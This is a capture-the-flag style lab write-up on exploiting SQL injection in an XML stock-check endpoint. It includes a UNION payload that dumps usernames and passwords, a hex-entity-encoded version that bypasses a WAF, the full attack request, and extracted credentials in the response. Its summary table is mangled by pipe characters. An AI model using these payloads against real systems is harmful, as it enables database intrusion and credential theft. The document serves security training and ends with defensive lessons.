


# Lab: SQL Injection with Filter Bypass via XML Encoding

## Lab Description

This lab contains a SQL injection vulnerability in the **stock check** feature of a web store application. The backend processes XML input and uses a SQL query that returns only a **single column**.

The application is protected by a **Web Application Firewall (WAF)**, which blocks obvious SQL injection attempts. To solve the lab, we must **bypass the WAF** using encoding techniques and exploit the vulnerability to retrieve the `administrator`'s credentials from the `users` table.

---

## Objective

* Identify and exploit the SQL injection vulnerability in the XML-based request.
* Use encoding to bypass WAF filters.
* Extract the `administrator`'s username and password from the `users` table.
* Log in as the administrator to solve the lab.

---

## Environment Setup

* Target Endpoint: `POST /product/stock`
* Tools used:

  * Burp Suite (with Hackvertor extension)
  * Burp Repeater
  * Browser (Burp embedded or external)

---

## Step-by-Step Exploit Walkthrough

### 1. Initial Recon

* Intercepted a stock check request in Burp Suite.
* Observed that the request body is in XML format:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

---

### 2. Understanding the Backend Query

* From behavior and description, the backend query resembles:

```sql
SELECT * FROM products WHERE productId = '<input>' AND storeId = '<input>';
```

* The app only displays results when the query returns a single column.
* WAF blocks raw SQL injection keywords and special characters like `'`, `UNION`, and `--`.

---

### 3. Injection Point and Payload Design

* Injection point identified in the `<storeId>` tag.

* Designed a payload to extract usernames and passwords by **concatenating** them into a single column using the `||` operator.

* Raw Payload:

```sql
1 UNION SELECT username || '~' || password FROM users
```

* Encoded with **Hackvertor > Encode > Hex Entities** to bypass WAF:

```xml
<storeId>&#x31;&#x20;UNION&#x20;SELECT&#x20;username&#x20;||&#x20;&#x27;&#x7E;&#x27;&#x20;||&#x20;password&#x20;FROM&#x20;users</storeId>
```

---

### 4. Executing the Attack

* Used Burp Repeater to modify and send the following full request:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>&#x31;&#x20;UNION&#x20;SELECT&#x20;username&#x20;||&#x20;&#x27;&#x7E;&#x27;&#x20;||&#x20;password&#x20;FROM&#x20;users</storeId>
</stockCheck>
```

* The WAF did not block the request, and the backend returned concatenated `username~password` results.

---

### 5. Results and Verification

* Extracted this output from the HTTP response:

```
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 100

wiener-dyq8jdsnf9k8e1oupf3h
administrator-ihcmjydgpf5cmtsua8mi
956 units
carlos-a2km3sdhxzi5d9rmqb79
```

* Logged in to the application using the `administrator` account and the extracted password to solve the lab.

---

## Payloads Used

| Description                     | Payload (Encoded)          |   |        |   |                        |
| ------------------------------- | -------------------------- | - | ------ | - | ---------------------- |
| Concatenate username & password | \`1 UNION SELECT username  |   |  '\~'  |   |  password FROM users\` |

---

## Lessons Learned

* WAFs can block obvious SQL injection attempts, but encoding tricks (like Hex Entities) are often overlooked.
* XML-based inputs are just as vulnerable to injection as GET/POST parameters.
* Concatenation (`||`) can be used to bypass single-column limitations in SQL queries.
* Proper input validation, escaping, and use of parameterized queries are essential for defense.

---

## Screenshots and Images

1. **Intercepted XML Request & Sent to Repeater:**
   

2. **Successful Response:**
   

---

## Conclusion

This lab demonstrates the effectiveness of encoding-based WAF bypasses and the critical nature of protecting all input vectors — including XML — from SQL injection. Even basic encoding can bypass naïve security filters and expose sensitive application data.


